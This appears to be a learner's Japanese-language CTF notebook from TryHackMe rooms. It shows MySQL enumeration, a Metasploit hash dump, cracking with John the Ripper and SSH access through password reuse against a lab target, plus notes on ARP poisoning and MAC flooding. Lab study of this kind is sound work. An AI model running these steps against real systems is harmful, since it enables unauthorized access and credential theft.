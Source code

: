 # 20210901

## THM

### Cyber Defense Introduction: Network Services 2

#### Enumerating MySQL

* 初期調査でMySQLを呼ぶことはない
* 学習のため、調査途中でMySQLの認証情報を見つけたと仮定する

```bash
nmap -F -A $target_ip
# Host is up (0.011s latency).
# PORT     STATE SERVICE VERSION
# 22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
mysql -h $target_ip -u root -p
#=> みつけた認証情報がつかえる
> quit
msfconsole
> use mysql_sql
> options
> set PASSWORD password
> set USERNAME root
> set RHOSTS $target_ip
> run
# 5.7.29-0ubuntu0.18.04.1
> set SQL "show databases"
> run
# [*] [target_ip]:3306 - Sending statement: 'show databases'...
# [*] [target_ip]:3306 -  | information_schema |
# [*] [target_ip]:3306 -  | mysql |
# [*] [target_ip]:3306 -  | performance_schema |
# [*] [target_ip]:3306 -  | sys |
```

#### Exploiting MySQL

* schema
  * MySQLでは、物理的に、スキーマはデータベースと同義です。例えば、CREATE DATABASEの代わりにCREATE SCHEMAを使うなど、MySQLのSQL構文ではDATABASEの代わりにキーワード「SCHEMA」を使うことができます。この関係を理解することが重要なのは、他のデータベース製品では区別されているものがあるからです。例えば、Oracle Database製品では、スキーマはデータベースの一部（1人のユーザーが所有するテーブルやその他のオブジェクト）のみを表します。
* HASH
  * 各ハッシュは、オリジナルデータへのポインタとして機能するユニークなIDを持っています
  * 今回抽出するデータは、パスワードハッシュです。パスワードハッシュとは、平文ではないパスワードを保存するための単なる手段です。
* mysql_hashdumpでパスワードハッシュを手に入れてjohn the ripperで生passを見つける

```bash
> use auxiliary/scanner/mysql/mysql_schemadump
#=> shown many tables
> use auxiliary/scanner/mysql/mysql_hashdump
# [+] [target_ip]:3306     - Saving HashString as Loot: root:
# [+] [target_ip]:3306     - Saving HashString as Loot: mysql.session:*XXXXXXXXXXXXXXXXXXXXXXXXX
# [+] [target_ip]:3306     - Saving HashString as Loot: mysql.sys:*XXXXXXXXXXXXXXXXXXXXXXXXX
# [+] [target_ip]:3306     - Saving HashString as Loot: debian-sys-maint:*XXXXXXXXXXXXXXXXXXXXXXXXX
# [+] [target_ip]:3306     - Saving HashString as Loot: root:*XXXXXXXXXXXXXXXXXXXXXXXXX
# [+] [target_ip]:3306     - Saving HashString as Loot: user_name:*XXXXXXXXXXXXXXXXXXXXXXXXX
# [*] [target_ip]:3306     - Scanned 1 of 1 hosts (100% complete)
# [*] Auxiliary module execution completed
echo user_name:*XXXXXXXXXXXXXXXXXXXXXXXXX > hash.txt
export PATH=$PATH:/usr/sbin
#=> $PATHにsbinなかった。。
john hash.txt
mysql -h $target_ip -u carl -p
# password reuseを想定
ssh carl@$target_ip
```

#### Further Learning

* [ch-exploits](https://web.mit.edu/rhel-doc/4/RH-DOCS/rhel-sg-en-4/ch-exploits.html)
* [nsa-warns-vulnerabilities-multiple-vpn-services](https://www.nextgov.com/cybersecurity/2019/10/nsa-warns-vulnerabilities-multiple-vpn-services/160456/)

### Wireshark

#### Collection Methods

* Wiresharkでパケットを収集する手順は簡単だが、トラフィックを取り込むのは難しい
  * taps, port mirroring, MAC floods, ARP Poisoning
  * このルームでは基本的な理論についてのみ説明
* Network Taps
  * ケーブル間を物理的に盗聴
  * these techniques are commonly used by Threat Hunting/DFIR teams and red teams
  * 主に2つの方法
    * vampire tapなどのハードウェアを噛ませて通信を傍受
    * Throwing Star LAN Tapなどのinline network tapをネットワークデバイス間に設置し、パケットを複製
* MAC Floods
  * スイッチにストレスを与え、CAMテーブルを満杯にする
  * これによって新しいMACアドレスを受け入れなくなり、SWはすべてのポートにパケットを送信する
* ARP Poisoning
  * ホストからのトラフィックを監視しているマシンにリダイレクトする
